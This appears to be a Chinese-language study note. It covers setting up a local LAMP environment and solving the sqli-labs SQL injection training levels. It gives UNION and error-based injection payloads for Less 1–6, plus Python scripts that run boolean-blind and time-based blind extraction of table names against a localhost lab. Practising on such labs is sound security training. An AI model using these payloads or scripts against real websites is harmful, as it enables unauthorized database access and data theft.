




## LAMP

### linux

**vmware ubuntu 22.05**

### Apach2



### mysql



### php



## sql-labs

值得一提的是在搭建**sql-labs**时，正常查询根本不出数据，在简单的用`echo 123;`debug了一下后。

发现是由于我的**sql-labs**文件夹是本用户在github下载压缩包后已到**/var/www/html**文件夹内的，导致**www-data**用户是没有写入权限的



于是在这一步是无法完成的，从而查询无法进行后面的操作，改完权限就好了。

**Less 1~6**

```
# 1
0'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema = database();--+

# 2
0 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema = database();--+

# 3
0') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema = database();--+

#4
0") union select 1,2,group_concat(table_name) from information_schema.tables where table_schema = database();--+

#5
1' and (extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = database()),0x7e)));--+

#6
1'" and (extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = database()),0x7e)));--+
```

**Less-8**

```python
import requests

url='http://localhost/sqli-labs-php7-master/Less-8/?id='
flag=''
for i in range(1,100):
    for j in range(32,127):
        payload = f"1' and (ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema = database()) ,{i},1))) = {j};--+"
        r=requests.get(url = url + payload)
        if 'You are in...........' in r.text:
            flag+=chr(j)
            print(flag)
            break
```

**Less-9**

```python
import requests
import time

url='http://localhost/sqli-labs-php7-master/Less-9/?id='
flag=''
for i in range(1,100):
    for j in range(32,127):
        payload = f"1' and if((ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema = database()),{i},1)) = {j}),sleep(1),1);--+"
        start = time.time()
        r=requests.get(url = url + payload)
        end = time.time()
        if (end - start > 1):
            flag += chr(j)
            print(flag)
            break
```

